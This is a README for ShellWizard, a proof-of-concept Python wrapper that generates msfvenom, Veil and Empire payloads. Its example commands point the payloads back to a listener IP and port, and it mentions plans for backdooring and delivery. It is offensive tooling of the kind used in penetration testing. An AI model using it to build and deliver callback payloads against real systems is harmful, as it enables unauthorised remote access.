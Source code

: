 
<h1 align="center">
  <br>
ShellWizard
  <br>
</h1>

<h4 align="center">Python wrapper for payload creation.</h4>
<h6 align="center">This tool is still in development and has plans to include significantly more funcionality. Is currently just a PoC.</h4>
<h6 align="center">Some of the future functionality includes better staging (wix building and backdooring) and delivery.</h4>

<p align="center">
  <a href="#install">Install</a> •
  <a href="#examples">Examples</a> •
  <a href="#related">Related</a> •
  <a href="#license">License</a>
</p>

## Install
```python
git clone https://github.com/byinarie/ShellWizard.git
pip3 install -r requirements.txt 
```

## Examples
* Help
```bash
python3 ShellWizard.py --help
python3 ShellWizard.py venom --help
python3 ShellWizard.py empire --help
python3 ShellWizard.py veil --help
```

* Generate a veil payload
```python
python3 ShellWizard.py veil -lhost LISTENER-IP -lport -LISTENER-PORT -veil-options ADDTIONAL-OPTIONS
```
* Generate a venom payload
```python
python3 ShellWizard.py venom -lhost LISTENER-IP -lport -LISTENER-PORT -msf-options ADDTIONAL-OPTIONS
```

* Generate an Empire Payload (needs updated to include lhost, listener creation/etc)
* Currently not working.
```python
python3 ShellWizard.py veil --empire-host EMPIRE-API --empire-user USER --empire-pass PASSWORD --empire-options ADDTIONAL-ARGUMENTS
```

## Related
* todo

## License

Creative Commons Zero v1.0 Universal

---

